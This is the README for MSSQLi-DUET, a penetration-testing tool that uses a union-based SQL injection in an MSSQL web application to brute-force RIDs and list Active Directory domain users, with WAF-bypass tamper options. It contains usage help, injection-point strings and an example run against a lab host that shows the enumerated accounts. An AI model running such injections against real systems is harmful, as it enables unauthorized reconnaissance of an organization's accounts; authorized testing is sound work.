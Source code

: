 # MSSQLi-DUET - MSSQL Injection-based Domain User Enumeration Tool

SQL injection script for MSSQL that extracts domain users from an Active Directory environment based on RID bruteforcing. Supports various forms of WAF bypass techniques through the implementation of SQLmap tamper functions. Additional tamper functions can be incorporated by the user depending on the situation and environment.

Currently only support union-based injection. Planning to add other techniques later. More samples and test cases are required to fully test tool's functionality, feedback and comments are greatly welcomed and appreciated!

## Usage
### Script Help
```
python3 mssqli-duet.py -h
usage: mssqli-duet.py [-h] -i INJECTION [-e ENCODING] -t TIME_DELAY -rid
                      RID_RANGE [-ssl SSL] -p PARAMETER [-proxy PROXY]
                      [-o OUTFILE] -r REQUEST_FILE

MSSQLi-DUET - MSSQL (Injection-based) Domain User Enumeration Tool

optional arguments:
  -h, --help            show this help message and exit
  -i INJECTION, --injection INJECTION
                        Injection point. Provide only the data needed to
                        escape the query.
  -e ENCODING, --encoding ENCODING
                        Type of encoding: unicode, doubleencode, unmagicquotes
  -t TIME_DELAY, --time_delay TIME_DELAY
                        Time delay for requests.
  -rid RID_RANGE, --rid_range RID_RANGE
                        Hypenated range of RIDs to bruteforce. Ex: 1000-1200
  -ssl SSL, --ssl SSL   Add flag for HTTPS
  -p PARAMETER, --parameter PARAMETER
                        Vulnerable parameter
  -proxy PROXY, --proxy PROXY
                        Proxy connection string. Ex: 127.0.0.1:8080
  -o OUTFILE, --outfile OUTFILE
                        Outfile for username enumeration results.
  -r REQUEST_FILE, --request_file REQUEST_FILE
                        Raw request file saved from Burp

Prepare to be enumerated!
```

### How to use
After identifying a union-based SQL injection in an application, copy the raw request from Burp Suit using the 'copy to file' feature.

Pass the saved request to DUET with the `-r` flag. Specify the vulnerable parameter and well as the point of injection. As an example, if the parameter "element" is susceptible to SQL injection, `-p` will be "element". DUET will build out all the SQL injection queries automatically, but specification for the initial injection needs to be provided. Meaning, if the injection occurs because of a single apostrophe after the parameter data, this is what would be specified for the `-i` argument. 
```
Ex: test' 
    test'))
    test")"
```

### Example
```
python3 mssqli-duet.py -i "carbon'" -t 0 -rid 1000-1200 -p element -r testrequest.req -proxy 127.0.0.1:8080
[+] Collected request data:
Target URL = http://192.168.11.22/search2.php?element=carbon
Method = GET
Content-Type = applcation/x-www-form-urlencoded


[+] Determining the number of columns in the table...
        [!] Number of columns is  3
[+] Determining column type...
        [!] Column type is null
[+] Discovering domain name...
        [+] Domain = NEUTRINO
[+] Discovering domain SID...
S-1-5-21-4142252318-1896537706-4233180933-

[+] Enumerating Active Directory via SIDs...

NEUTRINO\HYDROGENDC01$
NEUTRINO\DnsAdmins
NEUTRINO\DnsUpdateProxy
NEUTRINO\HELIUM$
NEUTRINO\BORON$
NEUTRINO\BERYLLIUM$
NEUTRINO\aeinstein
NEUTRINO\bbobberson
NEUTRINO\csagan
NEUTRINO\ccheese
NEUTRINO\svc_web
NEUTRINO\svc_sql
```

## References 
https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/
